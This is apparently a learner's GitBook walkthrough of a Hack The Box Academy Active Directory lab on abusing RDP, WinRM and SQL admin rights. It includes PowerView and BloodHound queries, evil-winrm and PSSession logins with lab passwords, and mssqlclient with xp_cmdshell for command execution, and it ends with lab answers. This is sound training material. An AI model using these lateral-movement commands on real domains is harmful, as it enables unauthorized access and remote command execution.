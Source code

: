 # 🦑 Privileged Access

## Privileged Access

### Remote Desktop

Typically, if we have control of a local admin user on a given machine, we will be able to access it via RDP. Sometimes, we will obtain a foothold with a user that does not have local admin rights anywhere, but does have the rights to RDP into one or more machines.

Using PowerView, we could use the [Get-NetLocalGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-NetLocalGroupMember/) function to begin enumerating members of the `Remote Desktop Users` group on the host

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
<SNIP>
```

all Domain Users (meaning `all` users in the domain) can RDP to this host.

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound**

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Once we control a user, we can check what remote access rights they have either directly or inherited via group membership under `Execution Rights` on the `Node Info` tab.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>or <code>Analysis</code> tab and run the pre-built queries <code>Find Workstations where Domain Users can RDP</code> or <code>Find Servers where Domain Users can RDP</code>.</p></figcaption></figure>

### WinRM

We can again use the PowerView function `Get-NetLocalGroupMember` to the `Remote Management Users` group.

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

We can also utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the `Raw Query` box at the bottom of the screen and hitting enter.

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

**Adding the Cypher Query as a Custom Query in BloodHound**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Establishing WinRM Session from Windows**

We can use the [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet using PowerShell from a Windows host.

```powershell
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

and on a linux host we can use `evil-winrm`

Install `evil-winrm ->`

```shell-session
ElFelixi0@htb[/htb]$ gem install evil-winrm
```

And to conect to the host with a set of valid credentials ->

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend
```

### SQL Server Admin

A way that you may find SQL server credentials other then via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying is using the tool [Snaffler](https://github.com/SnaffCon/Snaffler) to find web.config or other types of configuration files that contain SQL server connection strings

Here is a query for bloodhound to find `SQL Admin Rights` in the `Node Info` tab for a given user

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use our ACL rights to authenticate with the `wley` user, change the password for the `damundsen` user and then authenticate with the target using a tool such as `PowerUpSQL`, which has a handy [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet). Let's assume we changed the account password to `SQL1234!` using our ACL rights. We can now authenticate and run operating system commands.

**Enumerating MSSQL Instances with PowerUpSQL**

```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain
```

We could then authenticate against the remote SQL server host and run custom queries or operating system commands.

```powershell-session
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

We can also authenticate from our Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)

```shell-session
ElFelixi0@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

Then we can look at the commands we can launch on the SQL server like `enable_xp_cmdshell` to enable the [xp\_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

```shell-session
SQL> enable_xp_cmdshell
```

Now we can run commands in the format `xp_cmdshell <command>`

```shell-session
xp_cmdshell whoami /priv
```

_**What other user in the domain has CanPSRemote rights to a host?**_

So i start by launching sharphound on my windows machine, then downloading it to my attackbox via a evil-winrm session, then i launch bloodhound and upload all the data ->

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_I enter this raw query ->_

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>BDAVIS</p></figcaption></figure>

_**What host can this user access via WinRM? (just the computer name)**_

```
ACADEMY-EA-DC01
```

_**Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.**_

_**We find the SQL admin rights ->**_

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

via a evil-winrm session i upload mssqlclient.exe to the RDP session and launch the attack

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

